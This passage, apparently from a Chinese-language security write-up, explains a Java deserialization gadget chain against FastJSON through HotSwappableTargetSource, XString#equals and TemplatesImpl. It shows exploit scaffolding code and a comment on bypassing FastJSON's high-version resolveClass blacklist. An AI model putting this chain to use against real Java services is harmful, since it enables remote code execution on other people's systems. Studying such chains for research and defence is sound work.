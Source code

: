 ```
        setValue(v1,"target",jsonObject1);

//      用于Reference包裹绕过FastJSon高版本resolveClass黑名单检查,from Y4tacker
/*        HashMap&lt;Object,Object&gt; hhhhashMap = new HashMap&lt;&gt;();
        hhhhashMap.put(tpl,hashMap);*/

        serialize(hashMap);
        unserialize("ser.bin");
}

public static void setValue(Object obj,String field,Object value) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj,value);
    }
public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
```

来看一下调用栈

在Xtring#equals方法中，调用了obj2的toString()方法，这个obj2就是`HotSwappableTargetSource`中和XString对象作比较的`templatesimpl`对象

```
public boolean equals(Object obj2)
  {

    if (null == obj2)
      return false;

      // In order to handle the 'all' semantics of
      // nodeset comparisons, we always call the
      // nodeset function.
    else if (obj2 instanceof XNodeSet)
      return obj2.equals(this);
    else if(obj2 instanceof XNumber)
        return obj2.equals(this);
    else
      return str().equals(obj2.toString());
  }
```

##### BadAttributeValueExpException

**JDK原生可用**
